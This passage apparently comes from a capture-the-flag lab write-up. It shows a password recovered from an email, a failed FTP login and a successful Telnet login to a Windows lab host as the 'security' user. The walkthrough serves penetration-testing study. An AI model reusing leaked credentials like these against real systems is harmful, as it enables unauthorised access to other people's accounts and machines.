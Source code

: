 ```shell


The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is pass
ed on to your engineers.



Regards,

John



[-- #1.1.2 51/2211 text/html, 7bit, us-ascii --]
?
```

Another set of credentials! I wonder what these are used for? Let's try FTP first

```shell
# ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:jamie): security
331 Password required for security.
Password:
530 User cannot log in.
ftp: Login failed.
```

No dice ☹. The only other option is `telnet`.

## Telnet

```shell
# telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service

login: security
password:

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```

We're in! The `user.txt` should be located on `security`'s Desktop
